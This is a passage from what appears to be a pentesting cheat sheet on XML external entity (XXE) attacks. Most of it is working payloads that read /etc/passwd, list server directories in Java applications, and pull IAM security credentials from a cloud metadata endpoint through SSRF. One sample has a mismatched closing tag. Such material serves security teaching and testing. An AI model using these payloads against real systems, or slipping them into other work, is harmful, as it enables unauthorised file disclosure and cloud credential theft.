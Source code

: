 In this third case notice we are declaring the `Element stockCheck` as ANY

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ELEMENT stockCheck ANY>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<stockCheck>
    <productId>&file;</productId>
    <storeId>1</storeId>
</stockCheck3>
```

![](<../images/image (753).png>)

### Directory listing

In **Java** based applications it might be possible to **list the contents of a directory** via XXE with a payload like (just asking for the directory instead of the file):

```xml
<!-- Root / -->
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE aa[<!ELEMENT bb ANY><!ENTITY xxe SYSTEM "file:///">]><root><foo>&xxe;</foo></root>

<!-- /etc/ -->
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root[<!ENTITY xxe SYSTEM "file:///etc/" >]><root><foo>&xxe;</foo></root>
```

### SSRF

An XXE could be used to abuse a SSRF inside a cloud

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
